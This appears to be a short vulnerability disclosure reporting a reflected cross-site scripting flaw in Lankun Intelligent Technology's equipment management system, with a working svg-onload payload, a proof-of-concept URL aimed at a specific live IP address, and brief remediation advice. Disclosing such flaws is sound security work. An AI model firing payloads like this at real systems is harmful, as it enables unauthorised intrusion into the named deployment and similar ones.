

朗坤智慧科技股份有限公司 的设备管理系统存在 xss

xss exists in the equipment management system of Lankun Intelligent Technology Co., LTD

userName=<svg%20onload=alert(1)>//

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

http://121.37.245.131:8081/Liems/changePsw.jsp?userName=%3Csvg%20onload=alert(1)%3E//

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.
